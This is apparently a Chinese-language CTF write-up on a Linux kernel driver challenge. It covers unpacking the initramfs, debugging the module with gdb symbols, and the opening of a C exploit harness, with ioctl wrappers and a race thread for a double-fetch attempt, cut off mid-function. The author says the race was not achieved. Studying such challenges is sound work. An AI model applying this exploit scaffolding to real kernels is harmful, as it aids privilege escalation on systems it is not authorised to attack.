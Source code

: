  cpio -idmv < test.cpio解包,进到init.d改一下启动文件,方便调试

 find ./* | cpio -H newc -o > test.cpio 写回cpio.

/proc/modules 找基址 调试

add-symbol-file ~/Desktop/noob.ko 0xffffffffc0002000

发现断下来后也没啥用...后来发现这玩意申请了两个core,考虑一下double fetch,但是好像打不通啊....概率太低了,等一个wp

```
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <assert.h>
#include <unistd.h>
#include <pthread.h>

int fd1,fd2;

struct node
{
	uint64_t index;
	uint64_t data_ptr;
	uint64_t size;
};

int new(int fd,struct node * n)
{
	return ioctl(fd,0x30000,n);
}

int del(int fd,uint64_t index)
{
	struct node n;
	n.index = index;
	n.size = 0;
	n.data_ptr = NULL;
	return ioctl(fd,0x30001,&n);
}

int  edit(int fd,uint64_t index,uint64_t ptr,uint64_t size)
{
	struct node n;
	n.index = index;
	n.size = size;
	n.data_ptr = ptr;
	return ioctl(fd,0x30002,&n);
}

int  show(int fd,uint64_t index,uint64_t ptr,uint64_t size)
{
	struct node n;
	n.index = index;
	n.size = size;
	n.data_ptr = ptr;
	return ioctl(fd,0x30003,&n);
}

int finish = 0;
void changesize(void * ptr)
{
	struct node * p = (struct node *)ptr;

```